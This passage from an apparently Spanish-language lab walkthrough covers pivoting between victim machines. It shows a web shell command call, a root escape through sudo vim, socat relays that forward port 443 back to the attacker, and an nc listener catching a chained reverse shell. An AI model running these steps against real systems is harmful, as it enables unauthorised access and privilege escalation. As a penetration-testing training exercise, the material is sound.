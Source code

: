 Ahora ganamos acceso a la maquina victima3
```bash
http://30.30.30.3/uploads/cmd.php?cmd=whoami
```

output del comando:
```bash
www-data
```

Ahora para ganar acceso a la maquina victima 3 tendremos que crear un nuevo tunel en la maquina victima 1
Asi que abrimos una nueva sesion con en la maquina victima 1
```bash
ssh-keygen -R 10.10.10.2 && ssh mario@10.10.10.2
```

Una ves conectados de nuevo volvemos a ganar acceso como **root**
```bash
sudo /usr/bin/vim
:!/bin/bash
```

Ahora volvemos a redirigir el trafico a la maquina atacante con **socat** para indicar que todo lo que llegue a esta maquina victima 1 lo rediriga a nuestro puerto de atacante **443**: 
```bash
# Mario
./socat TCP-LISTEN:443,fork TCP:10.10.10.1:443
```

Una ves que indicamos que todo el trafico sea enviado a nuestra maquina atacante por el puerto **443**
Ahora desde la maquina victima3 que ya tenemos ejecucion de comandos, enviaremos la revershell a la maquina victima1 por el puerto 443 y a su ves **socat** manda esa revershell a nuestra maquina atacante:
**Nota** la revershell la tendremos que enviar a esta interfaz **20.20.20.2** que es de la maquna victima 2 para que logre tener acceso y especificamos el puerto 443 que es por el cual escucha **socat**
Nos ponemos en escucha en nuestra maquina atacante:
```bash
nc -nlvp 443
```

Ahora tambien en la maquina victima dos con el usaurio **manchi** tenemos que crear el tunel con **socat**.
```bash
./socat TCP-LISTEN:443,fork TCP:20.20.20.2:443
```

Una ves conectadas la maquina victima3 que es del usuario machi
```bash
20.20.20.3 30.30.30.2
```

Con la del usuario mario que es la maquina victima2
```bash
20.20.20.2
```

